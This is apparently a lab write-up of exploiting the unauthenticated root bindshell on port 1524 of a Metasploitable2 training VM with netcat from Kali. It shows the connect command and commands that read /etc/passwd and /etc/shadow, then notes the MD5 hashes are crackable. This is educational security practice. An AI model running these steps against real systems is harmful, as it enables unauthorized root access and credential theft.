



# 01 — Exploitation: Bindshell Port 1524

## Category
Red Team / Exploitation / Backdoor Access

## Objective
Access the target system by exploiting a backdoor (bindshell)
listening on port 1524 with no authentication.

## Environment

| Role | VM | IP |
|---|---|---|
| Attacker | Kali Linux | 10.10.10.100 |
| Target | Metasploitable2 | 10.10.10.101 |

## Tool
**Netcat (nc)** — TCP/UDP raw connection utility, pre-installed on Kali.

## Procedure

```bash
nc 10.10.10.101 1524
```

Single command. No password. Immediate root access.

## Execution — Full Output

### Root Access and Initial Recon
```bash
nc 10.10.10.101 1524
whoami      # root
uname -a    # Linux metasploitable 2.6.24-16-server i686
pwd         # /
ls /home/   # ftp  msfadmin  service  user
```



### System Users — /etc/passwd
```bash
cat /etc/passwd
```
Users with interactive shell (`/bin/bash`):
- `root` (uid 0)
- `msfadmin` (uid 1000)
- `user` (uid 1001)
- `service` (uid 1002)



### Password Hashes — /etc/shadow
```bash
cat /etc/shadow
```



| User | Hash Prefix | Algorithm |
|---|---|---|
| root | `$1$` | MD5 — obsolete |
| msfadmin | `$1$` | MD5 — obsolete |
| user | `$1$` | MD5 — obsolete |

## Technical Explanation

A **bindshell** is a process listening on a port that, upon each
connection, spawns a shell connected to the socket.
Anyone who reaches the port gets direct access.

In a real context this configuration exists when:
- Malware installs a backdoor
- An administrator leaves a debug port open
- A misconfiguration exposes an internal service

## Result
- Root access obtained ✅
- /etc/passwd read ✅
- /etc/shadow extracted (crackable MD5 hashes) ✅

## Snapshot
`02-kali-prima-exploitation-bindshell`

## Lessons Learned
- nmap recon revealed the port — without enumeration
  we would not have known where to strike
- Not all exploits require complex tools
- MD5-crypt (`$1$`) is crackable in minutes with a modern GPU
